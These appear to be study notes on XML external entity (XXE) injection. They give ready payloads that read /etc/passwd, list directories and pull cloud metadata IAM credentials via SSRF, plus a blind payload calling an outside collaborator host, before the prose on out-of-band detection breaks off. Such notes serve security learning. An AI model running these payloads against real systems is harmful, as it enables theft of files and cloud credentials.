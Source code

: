 In this first case notice that SYSTEM "_**file:///**etc/passwd_" will also work.




<!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
<data>&example;</data>

![[Pasted image 20250618210900.png]]
## Directory listing
<!DOCTYPE aa[<!ELEMENT bb ANY><!ENTITY xxe SYSTEM "file:///">]><root><foo>&xxe;</foo></root>


<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root[<!ENTITY xxe SYSTEM "file:///etc/" >]><root><foo>&xxe;</foo></root>

## SSRF
An XXE could be used to abuse a SSRF inside a cloud
<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]> <stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>


## Blind SSRF
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY % xxe SYSTEM "http://gtd8nhwxylcik0mt2dgvpeapkgq7ew.burpcollaborator.net"> %xxe; ]>
<stockCheck><productId>3;</productId><storeId>1</storeId></stockCheck>


# Blind XXE with out-of-band interaction

Blind XXE vulnerabilities arise where the application is vulnerable to XXE injection but does not return the values of any defined external entities within its responses. This means that direct retrieval of server-side files is not possible, and so blind XXE is generally harder to exploit than regular XXE vulnerabilities.

There are two broad ways in which you can find and exploit blind XXE vulnerabilities:

- You can trigger out-of-band network interactions, sometimes exfiltrating sensitive data within the interaction data.
- You can trigger XML parsing errors in such a way that the error messages contain sensitive data


### out-of-band
Out-of-band" refers to **interactions that occur outside the normal request/response cycle** between a client (like a browser or tool) and a server (web application). These interactions are often used to detect vulnerabilities that don’t immediately return visible data or errors—such as Blind XXE.

## Detecting blind XXE using out-of-band (OAST) techniques

You can often detect blind XXE using the same technique as for [XXE SSRF attacks](https://portswigger.net/web-security/xxe#exploiting-xxe-to-perform-ssrf-attacks) but triggering the out-of-band network interaction to a system that you control. For example, you would define an external entity as follows:
